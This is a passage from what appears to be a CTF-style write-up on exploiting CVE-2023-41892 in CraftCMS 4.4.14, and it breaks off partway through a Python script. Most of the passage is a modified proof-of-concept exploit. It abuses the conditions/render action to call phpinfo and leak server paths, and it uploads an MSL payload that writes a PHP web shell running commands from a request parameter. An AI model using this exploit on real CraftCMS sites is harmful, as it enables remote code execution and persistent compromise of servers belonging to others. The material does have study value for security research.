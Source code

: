 ## Exploitation

### CraftCMS 4.4.14

Searching for vulnerabilities in the CraftCMS version, a possible RCE was found

**CVE-2023-41892**

Searching for a PoC, the following page was found

[https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce)

Some code changes were necessary

- `cve-2023-41892.py`
    
    ```python
    import requests
    import re
    import sys
    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
    }
    
    def writePayloadToTempFile(documentRoot):
        data = {
            "action": "conditions/render",
            "configObject[class]": "craft\\elements\\conditions\\ElementCondition",
            "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
        }
    
        files = {
            "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
            <image>
            <read filename="caption:&lt;?php @System(@$_REQUEST['cmd']); ?&gt;"/>
            <write filename="info:DOCUMENTROOT/cpresources/shell.php">
            </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
        }
    
        response = requests.post(url, headers=headers, data=data, files=files)
    
    def getTmpUploadDirAndDocumentRoot():
        data = {
            "action": "conditions/render",
            "configObject[class]": "craft\\elements\\conditions\\ElementCondition",
            "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
        }
    
        response = requests.post(url, headers=headers, data=data)
    
        pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
        pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
    